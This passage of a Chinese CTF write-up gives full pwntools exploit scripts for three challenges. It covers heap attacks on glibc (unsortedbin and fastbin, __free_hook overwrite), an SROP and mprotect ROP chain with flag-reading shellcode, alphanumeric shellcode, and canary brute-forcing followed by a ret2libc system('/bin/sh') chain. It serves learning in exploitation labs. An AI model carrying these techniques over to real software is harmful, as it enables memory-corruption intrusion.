    new(0x68, '\x00'*0x33 + p64(0xfbad1800) + p64(0)*3 ) 
    r(0x88)
    libc.address = uu64(r(8)) - libc.symbols['_IO_2_1_stdin_']
    lg("libc.addressess", libc.address) 
```

#### unsortedbin攻击

```
 edit(1, 'b'*0x70 + p64(0) + p64(0x91))
    delete(2)
    edit(1, 'b'*0x70 + p64(0) + p64(0x91) + p64(0) + p64(libc.symbols['__free_hook']-0x20))
    new(0x88, '2') 
```

#### fastbin attack

这里有个点点一下，就是srop部分，因为setcontext最后一句xor eax,eax，再加上syscall就是相当于调用read,
rdi 第一个参数 fd
rsi 第二个参数 buf
rdx 第三个参数 count 大小
rsp 执行完后的rsp
rip 就是 执行syscall加ret

```
 edit(1, 'b'*0x70 + p64(0) + p64(0x71))
    delete(2)
    edit(1, 'b'*0x70 + p64(0) + p64(0x71) + p64(libc.symbols['__free_hook']-0x13))
    frame = SigreturnFrame()
    frame.rdi = 0 
    frame.rsi = (libc.symbols['__free_hook']) & 0xfffffffffffff000 
    frame.rdx = 0x2000
    frame.rsp = (libc.symbols['__free_hook']) & 0xfffffffffffff000
    frame.rip = libc.address + 0x00000000000bc375 
    payload = str(frame)
    new(0x68, payload[0x80:0x80+0x60])
    new(0x68, '\x00'*3 + p64(libc.symbols['setcontext']+53))
    edit(1, payload[:0x98]) 
```

#### mprotect修改内存页权限

```
 delete(1)
    layout = [
        libc.address + 0x0000000000021102, 
        libc.symbols['__free_hook'] & 0xfffffffffffff000, 
        libc.address + 0x00000000000202e8, 
        0x2000, 
        libc.address + 0x0000000000001b92, 
        7, 
        libc.address + 0x0000000000033544, 
        10, 
        libc.address + 0x00000000000bc375, 
        libc.address + 0x0000000000002a71, 
    ] 
```

#### shellcode jmp rsp

第一份shellcode ex师傅的
第二份用pwntools加自己编写一些
第三份纯自己写一遍

```
 shellcode = asm('''
    push 0x67616c66
    mov rdi, rsp
    xor esi, esi
    mov eax, 2
    syscall

    mov edi, eax
    mov rsi, rsp
    mov edx, 0x100
    xor eax, eax
    syscall

    mov edx, eax
    mov rsi, rsp
    mov edi, 1
    mov eax, edi
    syscall
    ''')
    shellcode = shellcraft.amd64.open('flag')
    shellcode += '''
    mov edi, eax
    mov rsi, rsp
    mov edx, 0x100
    xor eax, eax
    syscall

    mov edi, 1
    mov rsi, rsp
    push 1
    pop rax
    syscall
    '''

    shellcode = asm('''
    push 0x67616c66
mov rdi,rsp
xor esi,esi
push 2
pop rax
syscall
mov rdi,rax
mov rsi,rsp
mov edx,0x100
xor eax,eax
syscall
mov edi,1
mov rsi,rsp
push 1
pop rax
syscall
    ''') 
```

#### getshell走起

```
 s(flat(layout) + shellcode) 
```

。。。好像不能啊,只能特么的读flag，没意思

### exp

```
 from pwn import *

local = 1
host = '192.168.150.135' 
port = 10001

exe = '/tmp/tmp.97OiO1SVl1/pwn'
context.binary = exe
elf = ELF(exe)
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)
uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda s,addr          : io.success('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def choice(idx):
    sla("Your Choice: ", str(idx))

def new(size, content):
    choice(1)
    sla("Please input size: ", str(size))
    if len(content) == (size+1):
        sa("Please input content: ", content)
    else:
        sla("Please input content: ", content)

def edit(idx, content):
    choice(3)
    sla("Please input idx: ", str(idx))
    sa("Please input content: ", content)

def delete(idx):
    choice(2)
    sla("Please input idx: ", str(idx))

def exit():
    choice(4)

def exp():
    new(0x68, '1') 
    new(0x78, '2') 
    payload = p64(0) + p64(0x21)
    new(0x68, payload*6) 
    new(0x68, payload*6) 
    delete(0)
    new(0x68, 'a'*0x60 + p64(0) + p8(0xf1)) 
    delete(1)
    delete(2)
    new(0x78, '1') 
    delete(0)
    new(0x68, 'a'*0x60 + p64(0) + p8(0xa1)) 
    delete(1)
    new(0x98, '1') 
    edit(1, 'b'*0x70 + p64(0) + p64(0x71) + p16(0x8620-0x40-0x3))
    new(0x68, '\n') 
    new(0x68, '\x00'*0x33 + p64(0xfbad1800) + p64(0)*3 ) 
    r(0x88)
    libc.address = uu64(r(8)) - libc.symbols['_IO_2_1_stdin_']
    lg("libc.addressess", libc.address)

    edit(1, 'b'*0x70 + p64(0) + p64(0x91))
    delete(2)
    edit(1, 'b'*0x70 + p64(0) + p64(0x91) + p64(0) + p64(libc.symbols['__free_hook']-0x20))
    new(0x88, '2') 
    edit(1, 'b'*0x70 + p64(0) + p64(0x71))
    delete(2)
    edit(1, 'b'*0x70 + p64(0) + p64(0x71) + p64(libc.symbols['__free_hook']-0x13))
    frame = SigreturnFrame()
    frame.rdi = 0
    frame.rsi = (libc.symbols['__free_hook']) & 0xfffffffffffff000 
    frame.rdx = 0x2000
    frame.rsp = (libc.symbols['__free_hook']) & 0xfffffffffffff000
    frame.rip = libc.address + 0x00000000000bc375 
    payload = str(frame)
    new(0x68, payload[0x80:0x80+0x60])
    new(0x68, '\x00'*3 + p64(libc.symbols['setcontext']+53))
    edit(1, payload[:0x98])
    delete(1)
    layout = [
        libc.address + 0x0000000000021102, 
        libc.symbols['__free_hook'] & 0xfffffffffffff000,
        libc.address + 0x00000000000202e8, 
        0x2000,
        libc.address + 0x0000000000001b92, 
        7,
        libc.address + 0x0000000000033544, 
        10,
        libc.address + 0x00000000000bc375, 
        libc.address + 0x0000000000002a71, 
    ]
    shellcode = asm('''
    push 0x67616c66
    mov rdi, rsp
    xor esi, esi
    mov eax, 2
    syscall

    mov edi, eax
    mov rsi, rsp
    mov edx, 0x100
    xor eax, eax
    syscall

    mov edx, eax
    mov rsi, rsp
    mov edi, 1
    mov eax, edi
    syscall
    ''')
    shellcode = shellcraft.amd64.open('flag')
    shellcode += '''
    mov edi, eax
    mov rsi, rsp
    mov edx, 0x100
    xor eax, eax
    syscall

    mov edi, 1
    mov rsi, rsp
    push 1
    pop rax
    syscall
    '''

    shellcode = asm('''
    push 0x67616c66
mov rdi,rsp
xor esi,esi
push 2
pop rax
syscall
mov rdi,rax
mov rsi,rsp
mov edx,0x100
xor eax,eax
syscall
mov edi,1
mov rsi,rsp
push 1
pop rax
syscall
    ''')

    gdb.attach(io)
    s(flat(layout) + shellcode)

if __name__ == '__main__':
    while True:
        try:
            exp()
            io.interactive()
            break
        except Exception as e:
            print(e)
            io.close()
            io = process(exe) 
```

## easyshellcode

这个没啥好说的，用工具或者别的都行

### exp

```
 from pwn import *

local = 1
host = '127.0.0.1' 
port = 10000
context.log_level = 'debug'
exe = './pwn'
context.binary = exe
elf = ELF(exe)
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)

uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda name,data       : io.success(name + ": 0x%x" % data)

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def exp():
    buf = "PPYh00AAX1A0hA004X1A4hA00AX1A8QX44Pj0X40PZPjAX4znoNDnRYZnCXA"
    s(buf)

if __name__ == '__main__':
    exp()
    io.interactive() 
```

## easystack

看着很简单。。。然后不会做，后面发觉了，利用数学就可以计算出来，计算有几个比canary大的，逐字节爆破，

假如你输入了0x00000000-0xff000000,这么多个数，再加上填充到canary处的数，总共为301个
那计算出来的就是比canary大的数有几个，假设有70个，那在减掉填充的45个，就还有35个，意思从255开始往前数35个就是canary那一位的大小，
难点在封装成函数。。我觉得。。通常从低位往高位爆破，高往低，第一次写，太菜了

### exp

```
 from pwn import *
import subprocess

local = 1
host = '127.0.0.1' 
port = 10000
context.log_level = 'debug'
exe = './easystack'
context.binary = exe
elf = ELF(exe)
libc = elf.libc

if local:
    io = process(exe)
else:
    io = remote(host,port)

s    = lambda data            : io.send(str(data))
sa   = lambda delim,data      : io.sendafter(str(delim), str(data))
sl   = lambda data            : io.sendline(str(data))
sla  = lambda delim,data      : io.sendlineafter(str(delim), str(data))
r    = lambda numb=4096       : io.recv(numb)
ru   = lambda delim,drop=True : io.recvuntil(delim, drop)
uu32 = lambda data            : u32(data.ljust(4, '\x00'))
uu64 = lambda data            : u64(data.ljust(8, '\x00'))
lg   = lambda s,addr          : io.success('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
        gdb.attach(io,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(io,"b *{}".format(hex(addr)))

def one_gadget(filename):
    return map(int, subprocess.check_output(['one_gadget', '--raw', filename]).split(' '))

def burp_canary(idx, canary=0):
    num = 301
    sla(": ", num)
    start = 1
    end = start + 0xff 
    for i in xrange(start, end):
        payload = str(canary + (i << ((3-idx)*8)))
        print("payload: ", payload)
        sla(":", payload)
    for _ in xrange(45):
        payload = str(canary + (0xff << ((3-idx)*8)))
        sla(":", payload)
    sla(":", "0")
    ru("answer is ")
    answer = int(r(3))
    canary = 0xff - (answer -45)
    sla("(y or n)\n", "y")
    return canary

def get_canary():
    canary1 = burp_canary(0) << 24
    canary2 = burp_canary(1, canary1) << 16
    canary3 = burp_canary(2, canary1 + canary2) << 8
    canary = canary1 + canary2 + canary3
    lg("canary1", canary1)
    lg("canary2", canary2)
    lg("canary3", canary3)
    lg("canary", canary)
    return canary

def exp():
    canary = get_canary()
    num = 308
    sla("How much do you want to calc: ", 308)
    for i in xrange(300):
        sla(":", str(0xffffffff))
    sla(":", str(canary))
    for _ in xrange(3):
        sla(":", str(1))
    puts_plt = elf.plt['_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc']
    ret_addr = 0x80488E7
    cout = 0x804A0C0
    __libc_start_main_got = elf.got['__libc_start_main']
    sla(":", str(puts_plt))
    sla(":", str(ret_addr))
    sla(":", str(cout))
    sla(":", str(__libc_start_main_got))
    sla("n)", "y")
    ru("\n")
    addr = uu32(r(4))
    libc.address = addr - libc.symbols['__libc_start_main']
    lg("addr", addr)

    num = 306
    sla("How much do you want to calc: ", 308)
    for i in xrange(300):
        sla(":", str(0xffffffff))
    sla(":", str(canary))
    for _ in xrange(3):
        sla(":", str(1))
    sla(":", str(libc.symbols['system']))
    sla(":", str(ret_addr))
    sla(":", str(libc.search("/bin/sh").next()))
    sla("stop): ", "0")
    sla("n)", "n")

if __name__ == '__main__':
    exp()
    io.interactive() 
```

## 总结

1.  这几道题学到了好多东西
2.  shellcode编写，mprotect改内存页权限，SROP